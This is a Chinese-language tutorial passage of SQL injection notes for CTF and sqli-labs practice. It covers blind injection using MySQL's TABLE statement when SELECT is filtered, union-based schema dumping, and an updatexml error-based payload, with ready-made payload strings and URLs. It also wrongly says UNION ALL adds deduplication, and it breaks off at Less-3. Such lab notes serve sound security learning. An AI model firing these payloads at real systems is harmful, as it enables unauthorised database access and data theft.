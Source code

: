 上诉表格中虽然有能够查列名的表，但是查出来的数据都不全，当知道`flag`所在的库和表名时，但无法获取到列名，就需要利用**无列名盲注了**

## select被过滤

```mysql
mysql 8.0.19`新增语句`table
TABLE table_name [ORDER BY column_name] [LIMIT number [OFFSET number]]
```

可以把`table t`简单理解成`select * from t`，和`select`的区别在于

+   `table`总是显示表的所有列
+   `table`不允许任何的行过滤;也就是说，`TABLE`不支持任何`WHERE`子句。  
    可以用来盲注表名

```mysql
admin'and\x0a(table\x0ainformation_schema.TABLESPACES_EXTENSIONS\x0alimit\x0a7,1)>
(BINARY('{}'),'0')#
```

同时代替`select`被过滤导致只能同表查询的问题

PS：新增的`values`语句也挺有意思，在某些情况似乎可以代替`union`或`select`进行`order by`盲注

## 联合查询的类型

union 联合注入，union 的作用是将两个sql 语句进行联合。Union 可以从下面的例子中可以看出，强调一点：union 前后的两个sql 语句的选择列数要相同才可以。Union all 与union 的区别是增加了去重的功能。

并且运用information\_schema的知识。

sql-labs/less-1

字符型报错

```mysql
//order by判断字段
http://127.0.0.1/sqli-labs/Less-1/?id=-1' or 1=1 order by 3 --+
//通过union select判断显示的是哪些字段
http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
//通过information_schema爆数据库
http://127.0.0.1/sqli-labs/Less-1/?id=-1'  union select 1,database(),group_concat(schema_name) from information_schema.schemata --+
//爆数据表
```

admin'or(updatexml(1,concat(version()),1)or'1'like'1

select(group\_concat(table\_name)from(infromation\_schema.table)where(table\_schema)like('geek'))

select(group\_concat(table\_name)from(information\_schema.tables)where(table\_schema)like('geek'))

sql-labs/less-2

整数报错

与less-1差不多 将’去除即可

sql-labs/less-3
